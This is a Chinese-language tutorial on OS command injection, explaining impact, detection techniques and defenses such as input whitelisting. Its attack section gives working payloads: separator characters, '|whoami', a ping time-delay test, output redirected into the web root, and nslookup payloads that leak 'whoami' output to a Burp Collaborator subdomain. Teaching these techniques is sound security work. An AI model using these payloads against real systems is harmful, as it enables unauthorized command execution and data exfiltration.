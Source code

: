 # 命令注入

## 介绍

命令注入漏洞是一种允许攻击者在运行应用程序的服务器上执行任意操作系统命令，攻击者通过会利用此漏洞来破坏基础设施的其他部分，利用信任关系将攻击转向组织内的其他系统

## 影响

根据应用程序运行的权限，造成不同的影响

## 攻击

### 1. 插入特殊字符来检测分割符

```shell
&
;
换行符 (0x0a or \n)
&&
|
||
```

```shell
# 正常的 HTTP 请求
https://vulnerable-website.com/endpoint?parameter=123

# payload
https://vulnerable-website.com/endpoint?parameter=1|whoami
```

### 2. 时间延迟

> 大多数操作系统命令注入都是盲注，不会为我们产生任何输出，我们可以使用时间延迟来验证命令注入

```shell
# ping -c 10 127.0.0.1
https://vulnerable-website.com/endpoint?parameter=x||ping+-c+10+127.0.0.1||
```

### 3. 重定向输出

> 我们可以将注入命令的输出重定向到 WEB 根目录的一个文件中，然后访问它

```shell
https://vulnerable-website.com/endpoint?parameter=12||whoami>/var/www/images/output.txt||
```

### 4. 使用 OAST 进行操作系统命令注入

**payload**：使用`Burp Collaborator Client`

```shell
注入点=x||nslookup+burpcollaborator.net||
```

payload

```shell
注入点=||nslookup+`whoami`.YOUR-SUBDOMAIN-HERE.burpcollaborator.net||
```

## 防御

> 到目前为止，防止操作系统命令注入漏洞的最有效方法是永远不要从应用层代码中调用操作系统命令。
>
> 在很多情况下，都有使用更安全的平台API实现所需功能的替代方法。

如果使用用户提供的输入向操作系统命令发出呼叫被认为是不可避免的，则必须执行强输入验证。有效验证的一些示例包括：

* 对准允许值的白名单进行验证。
* 验证输入是一个数字。
* 验证输入仅包含字母数字字符，没有其他语法或空白。

## 参考文章

* [操作系统命令注入](https://portswigger.net/web-security/os-command-injection)
* [狼组安全团队公开知识库](https://wiki.wgpsec.org/knowledge/web/cmd\_injection.html)

## 提升

* [命令注入漏洞介绍-上](https://www.freebuf.com/articles/web/276503.html)
* [命令注入漏洞介绍-下](https://www.freebuf.com/articles/web/276505.html)
